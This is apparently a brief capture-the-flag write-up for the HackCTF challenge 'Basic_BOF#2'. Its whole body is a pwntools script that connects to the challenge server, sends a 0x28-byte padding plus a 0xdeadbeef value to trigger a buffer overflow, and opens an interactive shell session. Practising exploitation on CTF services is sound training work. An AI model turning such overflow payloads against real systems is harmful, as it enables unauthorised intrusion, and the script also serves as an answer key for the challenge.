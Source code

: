 ```yaml
---
title: "[HackCTF] Basic_BOF#2"
date: 2020-06-30
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3000)

p.sendline("0"*0x28+p32(0xdeadbeef)) p.interactive(){% endhighlight %}

